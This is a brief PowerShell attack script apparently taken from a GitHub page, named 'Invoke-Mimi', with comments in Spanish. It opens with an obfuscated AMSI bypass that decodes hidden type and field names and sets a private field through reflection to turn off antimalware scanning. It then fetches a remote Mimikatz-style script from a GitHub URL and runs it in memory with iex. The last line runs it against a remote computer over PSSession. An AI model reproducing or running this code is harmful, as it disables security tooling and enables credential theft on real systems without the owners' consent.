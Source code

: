 # Invoke-Mimi
#By Luis Carreto

#Evasion de AMSI

$A="5492868772801748688168747280728187173688878280688776828"

$B="1173680867656877679866880867644817687416876797271"
[Ref].Assembly.GetType([string](0..37|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " " ).GetField([string](38..51|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " ",'NonPublic,Static')."sE`T`VaLUE"(         ${n`ULl},${t`RuE} )

#Ejecucion en memoria

iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dr0pc/Invoke-Mimi/main/Invoke-Mimi.ps1')


#Ejecucion remota por PSSession

Invoke-Command -ScriptBlock  {AmsiBypass} ; & ${function:invoke-mimi} -ComputerName computer-name
